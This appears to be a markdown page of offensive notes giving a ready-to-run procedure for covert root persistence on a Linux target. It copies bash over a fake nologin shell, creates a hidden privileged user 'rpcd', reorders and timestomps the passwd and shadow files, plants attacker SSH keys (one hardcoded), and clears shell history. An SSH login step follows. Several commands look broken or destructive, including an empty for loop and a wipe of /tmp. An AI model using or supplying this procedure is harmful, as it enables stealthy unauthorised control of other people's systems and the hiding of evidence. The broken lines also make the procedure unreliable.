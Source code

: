 # Prerequisite

Root user access

# Attacker

    # ssh-keygen

# Target

    # cp /bin/bash /bin/nologin
    # for filename in "shadow" "passwd" "gshadow" "group"; do cp /etc/$filename /tmp/$filename; touch -d "$(date -R -r /etc/$filename)" /tmp/$filename; done
    # useradd -r -m -d /var/spool/<USERNAME> -s /usr/sbin/nologin <USERNAME>
    # useradd -r -m -d /var/spool/rpcd -s /bin/nologin rpcd
    # usermod -aG root,< wheel | sudo> rpcd
    # username=<USERNAME>;for filename in "shadow" "passwd" "gshadow" "group"; do line=$(grep $username /etc/$filename) && sed -i "/$username/d" /etc/$filename && awk -v newline="$line" 'NR==11 {print newline} {print}' /etc/$filename >/etc/$filename; chmod 644 /etc/$filename; touch -d "$(date -R -r /tmp/$filename)" /etc/$filename; done
    # chmod 000 /etc/shadow
    # touch -d "$(date -R -r /tmp/shadow)" /etc/shadow
    rm -f /tmp/*
    # for filename in "passwd" "shadow" "group" "gshadow"; done
    # mkdir -p /var/spool/rpcd/.ssh
    # echo '<ATTACKER_PUBLIC_KEY>' >> /var/spool/rpcd/.ssh/authorized_keys
    # echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOs0Xu4nrv/kQiVUWPzS7/9kxHM2G2MhvLGYHb1FhQWi vomanga@tanim-boly' >> /var/spool/rpcd/.ssh/authorized_keys
    # chown -R rpcd /var/spool/rpcd
    # chmod 600 /var/spool/rpcd/.ssh/authorized_keys
    # touch -d "$(date -R -r /etc/shells)" /var/spool/rpcd; touch -d "$(date -R -r /etc/shells)" /var/spool/rpcd/.ssh;touch -d "$(date -R -r /etc/shells)" /var/spool/rpcd/.ssh/authorized_keys
    # history -c


### Exploitation 

    ssh rpcd@<TARGET_IP>[:SSH_PORT] -i <ATTACKER_PRIVATE_KEY_PATH>


